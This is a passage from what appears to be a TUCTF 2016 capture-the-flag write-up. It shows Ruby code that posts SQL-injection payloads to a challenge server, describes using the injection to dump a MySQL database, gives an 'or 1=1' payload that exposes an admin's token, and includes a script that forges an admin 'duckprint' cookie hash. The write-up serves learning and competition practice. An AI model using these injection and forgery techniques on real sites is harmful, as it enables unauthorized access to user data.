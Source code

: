     uri = URI("http://xxx.xxx.xxx.xxx/postQuery.php")
    body = { name: payload, submit: '1'} 
    Net::HTTP.start(uri.host, 80) do 'http'
        req = Net::HTTP::Post.new(uri)
        req['User-Agent'] = 'Mozilla/5.0 (X11; Linux x86_64; rv:37.1) Gecko/20100101 Firefox/37.1'
        req['Content-Type'] = 'application/x-www-form-urlencoded; charset=UTF-8'
        req['X-Requested-With'] = 'XMLHttpRequest'
        # Build the HTTP Post body here. Create body by hand since set_form_data(params)
        # encodes values.
        req.body = "name=#{payload}&submit=1" 
    
        resp = http.request(req)
        puts(resp.body.inspect)
    end

To get there I used the payload in line 4 which basically closes the first select statement, concatenates a new one which prompts the version of the database (a specific Ubuntu package name came up here). Then I append some garbage to close the SQLi in a valid manner. Looks ugly, is ugly, but does the job. After this step I knew it's a MySQL DBMS. So from now on I know which syntax to use to list all tables(line 5), their column names(line 6) and their content(line 7).

## Web - Duckprint

During the Duckprint challenge you could create a user, generate a so called duckprint and validate it. The latter only works if you have a valid admin-cookie (or deactivate JavaScript ;-). This is how the website looks like.

![duckprint]({{ site.baseurl }}/assets/2016-05-29-tuctf-2016-writeups/duckprint.png)

On the screenshot we see how the "Duckprint" ist created. Looking at the   HTML code we again see some hints about how the SQL query is constructed. This enables us to inject  SQL code easily. It looks like the query of the previous
web challenge. With the payload "\textit{uss' or 1=1 or username='}" we get all users of the database. The first entry is an admin user with the name "DuckDuckGoose" and her token (whatever the meaning of it might be) is "d4rkw1ng". So we are one step closer to the challenge. To get the actual token we need to create a valid duckprint for the admin. The website (see screenshot) allows us to do this for an arbitrary username except the admin. So we do this ourselves with the following code snippet.

    #!/usr/bin/env ruby
    require 'digest'
    require "base64"
    
    user = Base64.encode64('DuckDuckGoose').chomp
    keks = Base64.encode64('{"username":"DuckDuckGoose","admin":1}'.chomp)
    token = Base64.encode64('d4rkw1ng').chomp
    
    concated_stuff = "#{user}.#{keks}.#{token}"
    duck_print = Digest::SHA256.hexdigest(concated_stuff)
    puts(duck_print)
    